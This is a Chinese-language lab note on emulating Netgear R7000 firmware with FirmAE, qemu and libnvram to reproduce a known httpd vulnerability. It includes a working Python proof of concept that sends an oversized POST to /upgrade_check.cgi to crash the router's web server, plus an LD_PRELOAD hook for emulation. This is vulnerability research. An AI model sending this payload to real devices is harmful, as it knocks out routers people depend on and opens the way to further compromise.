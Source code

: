 参考于文章[复现影响79款Netgear路由器高危漏洞](https://blog.csdn.net/q759451733/article/details/114459181)，但原文章是基于真实设备做的，这里尝试采用模拟的方式。

刚开始尝试qemu用户仿真，会报错说`libbdbroker.so`找不到
```
sudo chroot . ./qemu-arm-static /usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
/usr/sbin/httpd: can't load library 'libbdbroker.so'
```

然后去文件系统中找，这里会出现各种各种符号链接，但是是坏的，在提取的文件系统里确实找不到这个`libbdbroker.so`文件，这应该是路由器启动过程中动态生成的文件。

于是尝试使用FirmAE进行仿真，可以成功仿真！
```
sudo ./run.sh -d Netgear /home/iot/Desktop/firmware/Netgear/R7000-V1.0.11.100_10.2.100/R7000-V1.0.11.100_10.2.100.chk
```

![](images/Pasted%20image%2020230918224258.png)

通过debug模式进入shell，在FirmAE仿真的文件系统里可以找到`libbdbroker.so`文件，并且运行poc代码可以让http服务崩溃。
```python
# poc.py
import socket

ip = '192.168.1.1'
port = 80
argument_name = b"mtenFWUpload"

def send_plain(ip, port, payload):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	sock.connect((ip, port))
	sock.send(payload)
	print(sock.recv(4096))
	sock.close()

data = b""
data += b"*#$^\x00" # marker
data += b"\x00\x04\x00" # size
data += b"A" * 0x400

payload = b''
payload += b'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += b'Host: 192.168.1.1\r\n'
payload += b'Content-Disposition: AAAA\r\n'
payload += b'Content-Length: 1024\r\n'
payload += b'Content-Type: application/octet-stream\r\n'
payload += b'name="mtenFWUpload"\r\n'
payload += b'\r\n'
payload += data

print(payload)

send_plain(ip, port, payload)

```

由于项目需要，要尝试将httpd程序通过用户仿真方式跑起来并能够触发崩溃，查看固件支持的命令发现支持tftp，于是在主机搭建tftp服务器，把缺少的`libbdbroker.so`文件拷贝出来再尝试运行。
## 搭建tftp服务器

在ubuntu主机上安装服务端
```
sudo apt-get install tftpd-hpa
```

创建tftp服务器目录
```
cd /home/iot/Desktop
mkdir tftp_share
```

配置tftp服务器
```
sudo vim /etc/default/tftpd-hpa
```

将内容更改为如下内容：
```
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/iot/Desktop/tftp_share"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-l -c -s"
```

重启tftp服务
```
sudo service tftpd-hpa restart
```

在FirmAE跑起来的固件环境shell中运行tftp命令传输文件
```
tftp -l /tmp/media/nand/bitdefender/patches/base/lib/libbdbroker.so -r libbdbroker.so  -p 192.168.1.2 69
```

然后在tftp配置的目录下就可以找到相应的文件。

将`libbdbroker.so`文件放在lib目录下，然后再以用户仿真运行httpd程序，这次报`/var/run/httpd.pid: No such file or directory`，原因是缺少相应的目录，创建对应目录即可。提取的文件系统var指向tmp/var（不存在），所以递归创建目录`tmp/var/run`，然后再运行。

这次就开始报`/dev/nvram: No such file or directory`，这是因为没有配置nvram，可以安装firmadyne项目中提供的方法进行配置。

## nvram配置
根据[firmadyne/libnvram: NVRAM emulator (github.com)](https://github.com/firmadyne/libnvram) 中Usage的描述，下载arm版本的release，将`libnvram.so`覆盖原来的文件`usr/sbin/libnvram.so`，在文件系统根目录创建目录
```
mkdir -p firmadyne/libnvram/
mkdir -p firmadyne/libnvram.override/
```

然后重新启动httpd程序，nvram问题解决了，但是又崩了。。

![](images/Pasted%20image%2020230919113506.png)

没找出原因在哪儿，放弃。ps.尝试通过greenhouse工具跑该固件，但是跑完后没有结果。

## 全系统仿真
前面没跑通，后来又尝试全系统模式仿真，测试发现上面的问题是因为NVRAM的值（`gui_region`）没有设置，需要设置它的值才能继续跑下去，但是后面还有很多NVRAM的值需要设置，暂时还是没跑起来，记录一下全系统仿真时的脚本。

```
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

./gdbserver-7.7.1-armel-v1 192.168.2.2:1234 usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

20231004

有很多访问`/dev/acos_nat_cli`外设的，调用`ioctl()`函数操作，无法处理，导致崩溃，主要封装在`agApi_*` 函数。

##############
嵌入式设备中的很多程序通过内核设备驱动程序与外设协作。通常，其使用ioctl命令行与外设通信。但因为每个设备驱动程序都有其独特的特征，这些特征取决于其开发人员和相应的设备，所以这一过程并不容易模拟。尽管Firmadyne实现了一些虚拟内核模块，支持/dev/naram和/dev/acos_nat_cli，但这远远无法涵盖实际场景中中固件映像的各种特性。所以，这一问题会导致很多固件映像仿真过程中崩溃。 
**Insufficient support of kernel module**尽管Firmadyne用硬编码设备名称和icotl命令实现了虚拟模块，但当程序用不同的配置来访问内核时还是会失败。例如，大量的NETGEAR映像使用acos_nat模块来与安装在/dev/acos_nat_cli上的外设通信。在这些映像中，Firmadyne模块返回不正确的值，并在httpd中形成无限循环。此外，我们还发现ioctl命令根据固件体系结构的不同而不同，这一点也需要考虑进来。
FirmAE的高级仿真方法可以利用特定内核模块的优势。这里关键的一点是通过共享库来访问许多内核模块，这些共享库有发送相应ioctl命令的函数。因此，FirmAE可以像处理NVRAM问题一样对其处理。当程序调用库函数时，FirmAE返回一个预定义的值。因此，并不需要模拟每个设备架构中的每一条icotl命令。在这个例子中，我们只需要关注acos_nat，而经由共享库的其他外设访问可以用相同的方式处理。
##############

下载交叉编译工具：[armv7-eabihf--uclibc--stable-2020.08-1](https://toolchains.bootlin.com/downloads/releases/toolchains/armv7-eabihf/tarballs/armv7-eabihf--uclibc--stable-2020.08-1.tar.bz2)

对相关函数进行hook
```
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>

int open(const char *file, int oflag, ...)
{
	fprintf(stderr, "hook open func!!\n");
	char str1[] = "/dev/acos_nat_cli";
	if(strcmp(str1, file) == 0){
		// 1==2
		fprintf(stderr, "return open 1 !!\n");
		return 1;
	}else{
		fprintf(stderr, "try call open !!\n");
		typeof(&open) orig = dlsym(RTLD_NEXT, "open");
		return orig(file, oflag);
	}
	return 1;
}
```

```
rmv7-eabihf--uclibc--stable-2020.08-1/bin/arm-linux-gcc hook.c -o hook.so  -fPIC -shared -ldl
```

运行
```
sudo chroot . ./qemu-arm-static -E LD_PRELOAD=./hook.so usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

调试
```
sudo chroot . ./qemu-arm-static -g 1234 -E LD_PRELOAD=./hook.so usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem

set follow-fork-mode parent
```